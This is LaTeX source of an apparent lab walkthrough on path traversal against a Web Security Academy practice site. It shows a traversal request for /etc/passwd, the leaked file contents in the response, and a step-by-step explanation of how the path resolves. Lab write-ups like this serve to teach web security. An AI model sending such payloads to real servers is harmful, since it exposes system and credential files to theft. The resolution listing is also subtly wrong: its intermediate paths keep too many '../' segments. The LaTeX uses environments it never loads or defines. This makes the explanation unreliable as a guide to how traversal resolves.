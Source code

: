 \documentclass[11pt,letterpaper]{article}
\newcommand{\code}[1]{\texttt{\detokenize{#1}}}
\begin{document}
\begin{lstlisting}[language=http,caption={Step 5: Add traversal sequences to escape base directory}]
-- The image is probably in something like /var/www/images/ --
-- We need to go up 3+ directories to reach root --

GET /image?filename=../../../etc/passwd HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=xyz789

-- VULNERABLE RESPONSE! --
HTTP/1.1 200 OK
Content-Type: image/jpeg

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
...
\end{lstlisting}

\begin{warningbox}
The server returned the contents of \code{/etc/passwd}! This confirms:
\begin{enumerate}
  \item The application is vulnerable to path traversal
  \item We can read arbitrary files on the server
  \item The application runs with sufficient privileges to read system files
  \item The \code{root:x:0:0:} line proves we're reading the real passwd file
\end{enumerate}
\end{warningbox}

\subsection{Step 6: Understanding the Path Resolution}

\begin{lstlisting}[caption={How the path resolves on the server}]
Server base directory: /var/www/images/

Our payload: ../../../etc/passwd

Path construction:
  /var/www/images/ + ../../../etc/passwd

Resolution step by step:
  /var/www/images/../../../etc/passwd
  /var/www/../../../etc/passwd       (up from images)
  /var/../../etc/passwd               (up from www)
  /../etc/passwd                      (up from var)
  /etc/passwd                         (.. at root = root)

Final resolved path: /etc/passwd
\end{lstlisting}
\end{document}
